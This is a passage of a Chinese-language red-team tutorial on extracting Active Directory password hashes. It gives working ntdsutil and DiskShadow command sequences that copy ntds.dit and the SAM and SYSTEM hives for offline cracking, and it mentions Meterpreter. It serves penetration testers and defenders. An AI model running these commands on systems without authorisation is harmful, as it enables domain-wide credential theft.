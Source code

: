 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d49afd8-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d49afd8-988f-1.png)  
通过从现有的 Meterpreter 会话运行脚本，可以实现相同的输出。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d5d9386-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171014-5d5d9386-988f-1.png)  
使用 PWDumpFormat：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5d6f7c86-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5d6f7c86-988f-1.png)

NTDSUTIL
--------

该 NTDSUTIL 是一个命令行工具，它是域控制器生态系统的一部分，其目的是为了使管理员能够访问和管理`Windows Active Directory`数据库。但是，渗透测试人员和 redteam 可以用它来拍摄现有 ntds.dit 文件的快照，该文件可以复制到新位置以进行离线分析和密码哈希的提取。

```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5da943b2-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5da943b2-988f-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5dcbbd8e-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5dcbbd8e-988f-1.png)

```
将生成两个新文件夹：Active Directory和Registry。NTDS.DIT​​文件将保存在Active Directory中，SAM和SYSTEM文件将保存到Registry文件夹中。
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5de7ab8e-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5de7ab8e-988f-1.png)

DiskShadow
----------

DiskShadow 是 Microsoft 签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初 bohops 在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行 NTDS.DIT​​提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本。

```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意一点，`DiskShadow`二进制文件需要从`C\Windows\System32`路径执行。如果从另一个路径调用它，脚本将无法正确执行。

```
diskshadow.exe /s c:\diskshadow.txt
```
